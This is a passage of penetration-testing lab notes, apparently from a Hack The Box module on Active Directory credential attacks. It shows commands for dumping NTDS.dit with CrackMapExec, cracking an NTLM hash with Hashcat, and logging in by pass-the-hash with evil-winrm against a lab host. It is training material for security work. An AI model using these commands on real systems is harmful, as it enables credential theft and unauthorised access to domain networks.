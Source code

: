 ***

#### <mark style="color:green;">**A Faster Method: Using cme to Capture NTDS.dit**</mark>

Alternatively, we may benefit from using CrackMapExec to accomplish the same steps shown above, all with one command. This command allows us to utilize VSS to quickly capture and dump the contents of the NTDS.dit file conveniently within our terminal session.

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
{% endcode %}

***

### <mark style="color:red;">Cracking Hashes & Gaining Credentials</mark>

<mark style="color:green;">**Cracking a Single Hash with Hashcat**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```
{% endcode %}

***

### <mark style="color:red;">Pass-the-Hash Considerations</mark>

We can still use hashes to attempt to authenticate with a system using a type of attack called `Pass-the-Hash` (`PtH`). A PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`. Here is an example of how this would work:

<mark style="color:orange;">**Pass-the-Hash with Evil-WinRM Example**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
{% endcode %}

We can attempt to use this attack when needing to move laterally across a network after the initial compromise of a target. More on PtH will be covered in the module `AD Enumeration and Attacks`.
